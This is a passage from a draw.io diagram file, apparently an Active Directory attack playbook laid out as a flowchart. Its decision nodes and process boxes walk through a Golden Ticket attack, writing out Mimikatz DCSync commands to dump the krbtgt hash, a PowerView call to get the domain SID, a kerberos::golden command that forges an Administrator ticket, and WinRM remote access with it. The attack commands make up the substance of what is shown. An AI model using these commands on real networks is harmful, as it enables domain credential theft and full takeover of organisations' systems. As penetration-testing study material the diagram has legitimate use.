        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-81" value="Just a hunch what could also work" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-80">
          <mxGeometry x="-0.113" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-82" value="Very noisy code" style="whiteSpace=wrap;html=1;rounded=0;strokeWidth=3;strokeColor=#FF0000;" vertex="1" parent="1">
          <mxGeometry x="1062.5" y="45" width="255" height="40" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-87" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-83" target="-mCO11fVwZeK89IVwwup-92">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="179.824" y="540" as="targetPoint" />
            <Array as="points">
              <mxPoint x="180" y="495" />
              <mxPoint x="50" y="495" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-88" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-87">
          <mxGeometry x="-0.001" y="-2" relative="1" as="geometry">
            <mxPoint x="-1" y="-1" as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-117" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-83" target="-mCO11fVwZeK89IVwwup-116">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-118" value="NO" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-117">
          <mxGeometry x="0.08" y="-1" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-83" value="krbtgt account&#39;s password hash?" style="rhombus;whiteSpace=wrap;html=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="140" y="370" width="80" height="80" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-95" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-92" target="-mCO11fVwZeK89IVwwup-93">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-102" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-92" target="-mCO11fVwZeK89IVwwup-98">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-92" value="&lt;div&gt;&lt;b&gt;Retrieving Domain SID&lt;/b&gt;&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-10" y="580" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-93" value="PowerShell" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
          <mxGeometry x="-450" y="580" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-94" value="&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainSID&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-450" y="640" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-97" value="&lt;div&gt;C:\Tools&amp;gt; mimikatz.exe&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;div&gt;&lt;div&gt;mimikatz # lsadump::dcsync /user:krbtgt /domain:&amp;lt;fqdn&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="3370" y="3430" width="390" height="62" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-101" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-98" target="-mCO11fVwZeK89IVwwup-99">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-104" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-98" target="-mCO11fVwZeK89IVwwup-103">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-98" value="&lt;div&gt;&lt;b&gt;Forging the Golden Ticket&lt;/b&gt;&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-10" y="770" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-99" value="Mimikatz" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
          <mxGeometry x="-450" y="770" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-100" value="kerberos::golden /domain:&amp;lt;fqdn&amp;gt; /user:Administrator /sid:&amp;lt;domain-SID&amp;gt; /rc4:&amp;lt;kbrtgt-ntlm-hash&amp;gt; /ptt" style="whiteSpace=wrap;html=1;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-450" y="830" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-107" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-103" target="-mCO11fVwZeK89IVwwup-105">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-109" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-103" target="-mCO11fVwZeK89IVwwup-108">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-103" value="&lt;div&gt;&lt;b&gt;List tickets&lt;/b&gt;&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-10" y="950" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-105" value="PowerShell" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
          <mxGeometry x="-450" y="950" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-106" value="PS C:\Tools&amp;gt; klist" style="whiteSpace=wrap;html=1;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-450" y="1010" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-112" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-108" target="-mCO11fVwZeK89IVwwup-110">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-108" value="&lt;b&gt;Using WinRM with the Golden Ticket&lt;/b&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-10" y="1130" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-110" value="PowerShell" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
          <mxGeometry x="-450" y="1130" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-111" value="&lt;div&gt;PS C:\Tools&amp;gt; Enter-PSSession &amp;lt;target&amp;gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-450" y="1190" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-120" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-116" target="-mCO11fVwZeK89IVwwup-119">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-124" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-120">
          <mxGeometry x="0.052" y="2" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-116" value="&lt;b&gt;Access to DC-admin?&lt;/b&gt;" style="rhombus;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-20" y="370" width="80" height="80" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-123" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-119" target="-mCO11fVwZeK89IVwwup-121">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-125" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-119" target="-mCO11fVwZeK89IVwwup-92">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-119" value="&lt;b&gt;get the KRBTGT Hash&lt;/b&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-240" y="380" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-121" value="Mimikatz" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
          <mxGeometry x="-690" y="380" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-122" value="lsadump::dcsync /user:krbtgt /domain:&amp;lt;fqdn&amp;gt;" style="whiteSpace=wrap;html=1;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-690" y="440" width="390" height="60" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
